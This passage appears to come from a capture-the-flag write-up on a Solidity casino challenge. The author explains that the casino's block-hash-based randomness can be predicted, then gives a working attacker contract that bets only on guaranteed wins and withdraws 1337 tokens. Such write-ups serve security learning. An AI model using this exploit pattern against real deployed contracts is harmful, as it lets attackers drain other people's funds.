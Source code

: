 ```solidity

    function getTrialCoins() external {
        if(!trialed) {
            trialed = true;
            ducoin.transfer(msg.sender, 7);
        }
    }
}
```

This casino relied on `_randomNumber()` as its source of randomness. The function makes use of some block hashes to output a random number, so any contract within the current block can determine if it's going to win or not. Here's my solution:

```solidity
//SPDX-License-Identifier: Unlicensed
pragma solidity ^0.8.0;

import "./DUCoin.sol";
import "./Casino.sol";

contract Gambler {
    DUCoin private immutable ducoin;
    Casino private immutable casino;

    constructor(address _ducoin, address _casino) {
        ducoin = DUCoin(_ducoin);
        casino = Casino(_casino);
        casino.getTrialCoins();
        ducoin.approve(address(casino), 7);
        casino.deposit(7);
    }

    function _randomNumber() internal view returns(uint8) {
        uint256 ab = uint256(blockhash(block.number - 1));
        uint256 a = ab & 0xffffffff;
        uint256 b = (ab >> 32) & 0xffffffff;
        uint256 x = uint256(blockhash(block.number));
        return uint8((a * x + b) % 6);
    }

    function gamble() public {
        uint256 tokenBalance = casino.balances(address(this));

        if(_randomNumber() == 0) {
            casino.play(tokenBalance);
        }
    }

    function solve() public {
        casino.withdraw(1337);
        ducoin.transfer(msg.sender, 1337);
    }
}
```
